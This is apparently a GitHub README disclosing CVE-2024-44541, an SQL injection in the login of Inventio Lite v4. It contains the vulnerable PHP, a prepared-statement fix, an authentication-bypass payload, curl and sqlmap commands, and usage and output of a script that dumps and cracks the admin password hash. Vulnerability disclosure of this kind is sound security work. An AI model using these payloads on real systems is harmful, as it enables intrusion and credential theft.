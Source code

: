 # CVE-2024-44541: SQL Injection Vulnerability in Inventio Lite v4

## Description

Inventio Lite v4 is vulnerable to SQL Injection (SQLi) in the `/action=processlogin` endpoint. This vulnerability allows attackers to inject arbitrary SQL queries via the `username` parameter in POST requests, potentially leading to unauthorized access and data extraction.

## Vulnerable Code

The vulnerable code is as follows:

```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();
    $sql = "select * from user where (email= \"".$user."\" or username= \"".$user."\") and password= \"".$pass."\" and is_active=1";
    $query = $con->query($sql);
    $found = false;
    $userid = null;
    while($r = $query->fetch_array()){
        $found = true;
        $userid = $r['id'];
    }
}
```

Screenshot of the Vulnerable Code:
![Vulnerable Code](https://github.com/pointedsec/Inventio-Lite-Exploit-SQLi/blob/main/Screenshot_1.png?raw=true)


## Fixed Code

The issue is fixed by using prepared statements:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();

    // Prepare the query
    $stmt = $con->prepare("
        SELECT * FROM user 
        WHERE (email = ? OR username = ?) 
        AND password = ? 
        AND is_active = 1
    ");

    // Bind parameters
    $stmt->bind_param("sss", $user, $user, $pass);

    // Execute query
    $stmt->execute();

    // Get result
    $result = $stmt->get_result();
    $found = false;
    $userid = null;

    while($r = $result->fetch_assoc()){
        $found = true;
        $userid = $r['id'];
    }

    // Close statement
    $stmt->close();
}
```

## Exploitation

### Auth Bypass Payload

To exploit this vulnerability, use the following payload:
```
user -> ") or 1=1-- - 
pass -> blablalba
```

Example of the attack using `curl`:
```shell
$ curl -X POST http://192.168.1.51/inventio-lite/?action=processlogin -d 'username=%22%29%20or%201%3D1--%20-&password=blablabla' -v && echo ""
```

### SQLMap Example

```shell
$ sqlmap -u http://192.168.1.51/inventio-lite/?action=processlogin --data="username=*&password=*" --level 5 --risk 3 --dbms=mysql --dbs --prefix='")' --batch --dbs
```

## Exploit Script

To automate the exploitation and extraction of the administrator's username and password hash, you can use the provided Python script, `sqli.py`. 

You can clone this repository
```shell
git clone https://github.com/pointedsec/CVE-2024-44541
```

Then install the requirements with `pip`
```shell
pip install -r requirements.txt
```

Modify the following variables in the script as needed:
- `BASE_URL` = "[http://192.168.1.51/inventio-lite/](http://192.168.1.51/inventio-lite/)"
- `PWD_DIC_PATH` = "/usr/share/wordlists/rockyou.txt"

And execute the script, this will dump the Administrator username and hash, then tries to crack the hash with the `SHA1(MD5(password))` format.

Example output:
```console
$ python3 sqli.py 
[*] Checking if target is vulnerable
[+] Target Vulnerable!
[*] Dumping Administrator username...
[◤] Extracting Username: -> POINTEDSEC@GMAIL.COM
[/] Extracting Admin Password Hash: Final Admin Hash: 90b9aa7e25f80cf4f64e990b78a9fc5ebd6cecad
[+] Password Decrypted! -> POINTEDSEC@GMAIL.COM:admin
[*] Try to Log In with that username, if that doesn't work, try with some uppercase/lowercase combinations
```

## Impact

**Confidentiality:** Attackers can dump the entire database, exposing sensitive data such as user credentials and personal information.

**Integrity:** Attackers can bypass authentication and gain administrative access, allowing them to modify or delete data.

## References

- [Inventio Lite GitHub Repository](https://github.com/evilnapsis/inventio-lite)
- https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-44541
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-44541
- https://nvd.nist.gov/vuln/detail/CVE-2024-44541

## Credits

This vulnerability report was identified by Andrés Del Cerro. For further details, please contact me in pointedpentesting@gmail.com

---

